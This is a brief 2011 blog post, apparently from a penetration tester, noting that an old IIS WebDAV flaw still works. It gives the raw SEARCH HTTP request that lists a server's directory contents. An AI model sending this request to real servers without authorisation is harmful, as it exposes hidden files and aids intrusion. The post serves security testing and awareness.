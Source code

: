 ---
author: mubix
comments: true
date: 2011-08-26 18:56:42+00:00
layout: post
title: IIS Search Verb Directory Listing
categories:
- iis
---

This: [http://www.securityfocus.com/bid/1756](http://www.securityfocus.com/bid/1756) still works (_on vulnerable hosts, this is an old vuln_) and is very useful:

Send this:

```
SEARCH / HTTP/1.1  
Host: target  
Content-Type: text/xml  
Content-Length: 133  
  
<?xml version="1.0"?>  
<g:searchrequest xmlns:g="DAV:">  
<g:sql>  
Select "DAV:displayname" from scope()  
</g:sql>  
</g:searchrequest>


```

And expect something like this back:

![](/images/postimages/201108_iis_1.png)
